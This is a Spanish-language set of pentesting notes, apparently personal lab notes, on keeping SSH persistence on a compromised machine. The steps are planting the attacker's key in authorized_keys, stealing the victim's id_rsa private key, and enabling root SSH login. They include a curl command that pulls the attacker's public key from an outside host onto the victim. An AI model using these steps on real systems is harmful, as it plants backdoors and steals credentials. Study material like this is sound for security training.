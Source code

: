 Podemos pasarle el id_rsa de mi máquina de atacante a la máquina remota si le pasamos el id_rsa dentro de su directorio .ssh. Por lo que primero en mi máquina atacante creamos el id_rsa:
![[Pasted image 20230731213220.png]]
Le cambiamos el nombre a authorized_keys:
![[Pasted image 20230731213251.png]]
Y dentro de la máquina víctima eliminamos la clave pública que ya tenía:
![[Pasted image 20230731213346.png]]
A continuación nos compartimos este fichero de authorized_keys con la máquina víctima:
![[Pasted image 20230731213422.png]]
Y si iniciamos sesión, ya no debería de pedirnos la contraseña:
![[Pasted image 20230731213453.png]]
# PERSISTENCIA USANDO LA CLAVE PRIVADA ID_RSA DE LA MÁQUINA VÍCTIMA
También podemos capturar el id_rsa para entrar dentro de la máquina víctima sin proporcionar credenciales:
![[Pasted image 20230801110146.png]]
Tenemos la clave privada de la máquina víctima, donde tendremos que darle los permisos:
![[Pasted image 20230801110236.png]]
Y ahora si la usamos para iniciar sesión, no debería pedirnos credenciales:
![[Pasted image 20230801110311.png]]

# PERSISTENCIA SSH COMO ROOT

Para realizar pivoting o conseguir una mejor persistencia puede ser muy útil obtener un acceso como root vía ssh una vez hayamos escalado privilegios, por tanto primero debemos ser usuario root:
![[Pasted image 20230830084514.png]]
Y abrimos el fichero de configuración de ssh, donde debemos ver que el acceso por ssh como root esté habilitado:
```bash
sudo nano /etc/ssh/sshd_config
```
![[Pasted image 20230830084706.png]]
Ahora desde la máquina atacante, dentro del directorio de /root/.ssh debemos crear una clave pública que enviaremos a la máquina víctima:
![[Pasted image 20230830084904.png]]
![[Pasted image 20230830084945.png]]
Este id_rsa.pub lo llamaremos authorized_keys:
![[Pasted image 20230830085020.png]]
Y nos compartimos el authorized_keys del usuario root con la máquina víctima:
![[Pasted image 20230830085113.png]]
```bash
curl 192.168.0.20/id_ed25519.pub -o authorized_keys
```
![[Pasted image 20240423203358.png]]
Y ahora si entramos vía ssh como root a la máquina víctima, ya hemos conseguido persistencia como root:
![[Pasted image 20230830085344.png]]
